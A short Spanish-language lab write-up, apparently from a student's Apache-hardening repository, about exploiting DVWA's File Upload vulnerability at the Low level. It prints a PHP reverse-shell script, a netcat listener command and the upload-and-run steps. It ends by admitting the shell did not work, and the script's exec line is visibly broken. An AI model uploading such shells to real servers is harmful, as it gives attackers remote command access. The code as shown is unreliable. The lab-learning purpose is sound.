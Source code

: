 # File Upload

La vulnerabilidad **File Upload** se produce cuando una aplicación web incorpora archivos externos en sus operaciones basadas en la entrada proporcionada por el usuario sin validar adecuadamente la entrada. \
Esto puede permitir a los atacantes manipular el contenido de los archivos incluidos o incluso ejecutar código malicioso.
En esta sección se lleva a cabo un ejemplo de ataque utilizando esta vulnerabilidad.

## Level: Low
```
<?php

$ip=192.168.5.137; #IP del servidor DVWA
$port=9001; #Puerto de escucha
$sock=fsockopen($ip, $port);
exec("bin/bash -i <&3 >&3 2>&3");

?>
```

Se carga este archivo desde el cargador del servidor.
![Carga archivo](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/file_upload/asset/carga_archivo.png)

Ahora se crea un listener con **netcat**, que será donde se tendra acceso al servidor atacado (DVWA).

```
nc -lvnp 9001
```

Luego, desde la barra de direcciones se puede ejecutar el archivo malicioso.

![Ejecuta archivo](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/file_upload/asset/ejecuta_fichero.png)

El Archivo se ha cargado y ejecutado pero no ha funcionado el reverse shell. ???


